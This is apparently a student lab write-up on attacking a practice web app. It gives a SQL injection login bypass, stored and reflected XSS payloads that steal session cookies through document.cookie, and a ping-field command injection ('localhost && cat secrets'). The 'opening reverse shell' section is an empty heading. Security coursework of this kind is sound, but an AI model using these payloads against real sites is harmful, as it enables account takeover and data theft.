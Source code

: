Part 1: SQL Injection

login as
	user	:	alice@alice.com';--
	password: anything
 
 this will cut the query and execute before it checks for password



 Part 2: Cross-Site Scripting

 **Second order (persistent) attack**
 as each news are a list item, we can use 

    </li> [our actual code] <li>

to inject our code to the news.
In this case we use

<script> document.write("<img src=/news?text="+document.cookie+">") </script>

so that everytime someone sees their news feed, the injected code will print their session into the news feed database.


**first order attack**

instead of an image file that loads automatically, now we have a link that points to the same url

<a href="#" onclick="expose()"> reddit.com/r/funny <script> function expose() { window.location="/news?text="+document.cookie}</script> </a>

putting it in a simple html doesnt work because the cookies are not the same.


**listing secret file**

Using ping input field, we can add an additional shell command by inputting

    localhost && <another command>

in this case, displaying the contents of secret file will need

    localhost && cat secrets

**opening reverse shell**





